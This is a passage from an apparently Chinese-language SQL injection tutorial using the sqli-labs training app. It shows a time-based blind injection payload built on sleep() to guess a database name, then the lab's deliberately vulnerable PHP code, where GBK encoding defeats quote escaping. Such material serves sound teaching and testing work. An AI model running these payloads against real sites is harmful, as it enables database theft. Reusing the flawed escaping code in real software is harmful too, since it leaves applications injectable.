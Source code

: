 **2.sleep()函数**<br />设置睡眠时间<br />例：sleep(5) 睡眠5秒

判断出数据库：
```sql
http://192.168.1.8/Less-5/?id=1' and if(substr((select database()),1,1)='s',1,sleep(5))--+
```
判断数据库的第一个字母是不是“s”，是则页面直接显示结果，不是则延迟5S返回结果。


# 五、宽字节注入

## 5.1、代码分析
```php
<?php
  //including the Mysql connect parameters.
  include("../sql-connections/sql-connect.php");

function check_addslashes($string)
{
  $string = preg_replace('/'. preg_quote('\\') .'/', "\\\\\\", $string);          //escape any backslash
  $string = preg_replace('/\'/i', '\\\'', $string);                               //escape single quote with a backslash
  $string = preg_replace('/\"/', "\\\"", $string);                                //escape double quote with a backslash


  return $string;
}

// take the variables 
if(isset($_GET['id']))
{
  $id=check_addslashes($_GET['id']);
  //echo "The filtered request is :" .$id . "<br>";

  //logging the connection parameters to a file for analysis.
  $fp=fopen('result.txt','a');
  fwrite($fp,'ID:'.$id."\n");
  fclose($fp);

  // connectivity 

  mysql_query("SET NAMES gbk");
  $sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";
  $result=mysql_query($sql);
  $row = mysql_fetch_array($result);

  if($row)
  {
    echo '<font color= "#00FF00">';	
    echo 'Your Login name:'. $row['username'];
    echo "<br>";
    echo 'Your Password:' .$row['password'];
    echo "</font>";
  }
  else 
  {
    echo '<font color= "#FFFF00">';
    print_r(mysql_error());
    echo "</font>";  
  }
}
```